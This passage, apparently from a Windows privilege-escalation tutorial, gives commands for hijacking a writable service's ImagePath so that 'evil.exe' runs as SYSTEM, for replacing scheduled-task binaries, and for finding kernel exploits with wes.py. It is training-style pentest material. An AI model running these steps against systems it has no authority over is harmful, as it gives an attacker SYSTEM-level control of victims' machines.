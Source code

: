 Check permissions:

```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Services\VulnService
```

Modify path if writable:

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Services\VulnService /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\lowuser\evil.exe" /f
```

Restart service:

```cmd
sc stop VulnService
sc start VulnService
```

Now your payload runs as SYSTEM.

---

## 📡 Step 7: Exploiting Scheduled Tasks

List tasks:

```cmd
schtasks /query /fo LIST /v
```

Look for:

* SYSTEM-run tasks
* Writable paths in “Task to Run”

If writable, replace binary and wait for execution. For manual trigger:

```cmd
schtasks /run /tn "TaskName"
```

---

## 🔥 Step 8: Kernel & Exploit DB

Sometimes, you can’t find misconfigs. In that case, check for Windows kernel exploits.

1. Find OS version:

```cmd
systeminfo
```

2. Run `windows-exploit-suggester` or `wesng` locally:

```bash
wes.py --update
wes.py systeminfo.txt
```
